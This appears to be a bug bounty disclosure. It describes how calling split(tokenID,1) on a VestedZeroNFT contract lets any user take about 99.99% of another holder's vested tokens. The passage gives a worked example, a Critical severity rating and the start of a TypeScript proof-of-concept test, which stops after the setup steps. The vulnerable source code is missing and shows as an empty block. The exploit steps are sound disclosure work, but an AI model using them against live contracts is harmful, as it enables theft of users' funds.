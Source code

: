 ```solidity 
```

So the function just checks that the owner is not zero. 

So the attacker can use this function to steal most fraction of the VestedZeroNFT tokenID. 

The attacker can call 
```solidity
split(tokenID,1)
```
For the tokenID, the attacker can use any existed tokenID. 

The fraction is 1 to steal most of current tokenID to mint a new tokenID for the attacker. 

For example, if Ant has a tokenID for example = 2 that: 
pending = 10_000 * 10**18 

After the hack, 
The tokenID = 2 
pending = 1 * 10**18 

The hacker new minted tokenID has 

pending = 9999 * 10** 18 

So 99.99% amount of pending of Ant's tokenID was stolen by the attacker. 

The attacker can steal from tokenID of any owner, including the StakingBonus contract. 

# Impacts
# About the severity assessment

So the bug allow attackers to steal the VestedZeroNFT token of users.  
So the Severity is Critical with Category: Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties

        
## Proof of concept
# Proof of Concept

Test code POC: 
```typescript
it("Direct theft of ZeroVestedNFT", async function () {
    console.log("Create the pre-condition setup for attack: User Ant has 1 VestedZeroNFT");
    let lastTokenId = await vest.lastTokenId();
    console.log("The address of the owner of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    console.log("The address of StakingBonus contract: ", stakingBonus.target.toString());

    console.log("Mint a VestedZeroNFT for Ant by calling mint() function of VestedZeroNFT contract"); 
    tokenId = await vest.mint(
      ant.address,
      e18 * 10000n, // 10000 ZERO linear vesting
      0, // 0 ZERO upfront
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      false, // penalty -> false
      0
     );

    
    console.log("Zero balance of Ant", await zero.balanceOf(ant.address));
    console.log("Zero balance of vestZeroNFT contract", await zero.balanceOf(vest.target));
```
